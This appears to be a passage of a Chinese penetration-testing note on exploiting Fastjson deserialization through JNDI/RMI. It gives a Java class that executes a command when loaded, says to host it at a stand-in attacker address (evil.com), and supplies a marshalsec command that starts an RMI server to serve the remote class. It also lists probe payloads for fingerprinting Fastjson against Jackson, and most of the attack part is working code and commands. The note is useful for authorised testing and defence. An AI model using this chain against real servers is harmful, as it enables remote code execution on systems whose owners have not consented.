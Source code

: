 如果没有 com.sun.jndi.rmi.object.trustURLCodebase 的限制，我们可以简单利用 RMI 进行命令执行

首先编译并上传命令执行代码，如http://evil.com/runexec.class：
```java
// javac runexec.java
import java.lang.Runtime;
import java.lang.Process;

public class runexec {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```
```bsh
javac runexec.java
```

启动一个 RMI 服务器，监听 9999 端口，并制定加载远程类 runexec.class

```bash
java -cp /pentest/marshalsec/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://xx.xx.xx.xx/#runexec" 9999
```

发送 payload ,指定 rmi 服务器即可

---

## 探测

**如何区分 fastjson 与 jackson**

1. 不闭合花括号看报错信息
2. 减少参数
    ```
    {"name":"S", "age":21}              // Fastjson 是不会报错
    {"name":"S", "age":21,"xxx":123}    // Jackson 语法相对比较严格,会报错
    ```
3. 报错关键词
    ```
    com.alibaba.fastjson.JSONException
    ```

    触发方式如下
    ```
    {"x":"
    ["x":1]
    {"x":{"@type":"java.lang.AutoCloseable"
    ```
